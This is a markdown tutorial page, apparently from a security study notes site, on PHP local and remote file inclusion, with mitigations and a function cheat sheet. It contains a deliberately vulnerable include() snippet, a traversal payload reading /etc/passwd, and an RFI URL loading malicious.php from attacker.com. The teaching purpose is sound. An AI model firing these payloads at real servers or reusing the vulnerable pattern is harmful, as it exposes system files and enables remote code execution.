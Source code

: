 ```yaml
---
title: File Inclusion
layout: post
date: 2025-05-05
description: "File Inclusion vulnerability"
permalink: /theory/misc/file-inclusion
---
```


## File Inclusion

File Inclusion vulnerabilities occur when an application includes files without proper validation or sanitization. This can lead to unauthorized access to sensitive files or even remote code execution.

### Local File Inclusion (LFI)

Local File Inclusion (LFI) allows an attacker to include files on the server's filesystem. This can lead to exposure of sensitive files, such as `/etc/passwd`, or even execution of arbitrary code if the included file is a script.

#### Example

```php
<?php
$file = $_GET['file'];
include($file);
?>
```
In this example, an attacker could manipulate the `file` parameter to include sensitive files:

```
http://example.com/vulnerable.php?file=../../../../etc/passwd
```
This would expose the contents of the `/etc/passwd` file.

#### Mitigation
1. **Input Validation**: Validate and sanitize user input to ensure only expected values are allowed.
2. **Use Whitelists**: Implement a whitelist of allowed files to include.
3. **Disable URL Include**: In PHP, disable `allow_url_include` in the `php.ini` configuration file to prevent remote file inclusion.
4. **Use Absolute Paths**: Use absolute paths for file inclusion to prevent directory traversal attacks.
5. **Error Handling**: Implement proper error handling to avoid revealing sensitive information in error messages.
6. **Web Application Firewall (WAF)**: Use a WAF to detect and block file inclusion attempts.

### Remote File Inclusion (RFI)
Remote File Inclusion (RFI) allows an attacker to include files from a remote server. This can lead to remote code execution if the included file is a script. RFI is less common today due to security measures in modern web servers, but it can still be a risk in poorly configured applications.

#### Example

```php
<?php
$file = $_GET['file'];
include($file);
?>
```
In this example, an attacker could manipulate the `file` parameter to include a remote file:

```
http://example.com/vulnerable.php?file=http://attacker.com/malicious.php
```
This would execute the code in `malicious.php` on the vulnerable server.
#### Mitigation
1. **Input Validation**: Validate and sanitize user input to ensure only expected values are allowed.
2. **Disable URL Include**: In PHP, disable `allow_url_include` in the `php.ini` configuration file to prevent remote file inclusion.
3. **Use Whitelists**: Implement a whitelist of allowed files to include.
4. **Use Absolute Paths**: Use absolute paths for file inclusion to prevent directory traversal attacks.
5. **Error Handling**: Implement proper error handling to avoid revealing sensitive information in error messages.
6. **Web Application Firewall (WAF)**: Use a WAF to detect and block file inclusion attempts.


## File Inclusion Cheat Sheet

### File Inclusion Functions

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| `file_get_contents()`        |        ✅         |      ❌      |       ✅        |
| `fopen()`/`file()`           |        ✅         |      ❌      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |        ✅         |      ❌      |       ❌        |
| `fs.sendFile()`              |        ✅         |      ❌      |       ❌        |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `include`                    |        ✅         |      ❌      |       ❌        |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |        ✅         |      ❌      |       ❌        |
| `@Html.RemotePartial()`      |        ✅         |      ❌      |       ✅        |
| `Response.WriteFile()`       |        ✅         |      ❌      |       ❌        |
| `include`                    |        ✅         |      ✅      |       ✅        |

## References
- [OWASP File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [HackTheBox](https://academy.hackthebox.com/module/details/23)

